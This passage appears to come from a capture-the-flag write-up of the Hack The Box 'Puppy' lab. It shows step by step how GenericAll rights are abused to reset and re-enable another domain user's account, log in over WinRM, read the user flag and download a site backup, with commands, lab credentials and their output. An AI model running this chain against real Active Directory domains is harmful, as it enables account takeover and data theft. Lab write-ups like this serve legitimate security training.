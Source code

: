 From the image above, we can see that our current user “ant.edwards” is a member of the “SENIOR DEVS” which got a GenericALL on the user “adam.silver” . So let’s go ahead and change the password of “adam.silver” using ant.edwards

```bash
─$ net rpc password "adam.silver" "NewP@ssw0rd2025" -U PUPPY/ant.edwards%Antman2025! -S dc.puppy.htb
```

```bash
─$ crackmapexec smb 10.10.11.70 -u "adam.silver" -p "NewP@ssw0rd2025”

SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\adam.silver:NewP@ssw0rd2025 STATUS_ACCOUNT_DISABLED
```

Ok , now we have the account disabled . So let’s try to enable it using ant.edwards

```bash
└─$ bloodyAD --host dc.puppy.htb -d PUPPY.HTB -u 'ant.edwards' -p 'Antman2025!' remove uac 'adam.silver' -f ACCOUNTDISABLE

[-] ['ACCOUNTDISABLE'] property flags removed from adam.silver's userAccountControl
```

```bash
└─$ evil-winrm -i dc.puppy.htb -u adam.silver -p 'NewP@ssw0rd2025’

*Evil-WinRM* PS C:\Users\adam.silver\Desktop> ls

Mode                 LastWriteTime         Length Name

---

- a---- 2/28/2025 12:31 PM 2312 Microsoft Edge.lnk
-ar--- 5/30/2025 11:08 AM 34 user.txt

*Evil-WinRM* PS C:\Users\adam.silver\Desktop> cat user.txt
facc2ef8d130a94d6d388658058b1356
```

## Privilige Escalation Phase

```bash
*Evil-WinRM* PS C:\> cd Backups
*Evil-WinRM* PS C:\Backups> ls

Mode                 LastWriteTime         Length Name

---

- a---- 3/8/2025 8:22 AM 4639546     site-backup-2024-12-30.zip

*Evil-WinRM* PS C:\Backups>download site-backup-2024-12-30.zip

*Evil-WinRM* PS C:\Backups>
```
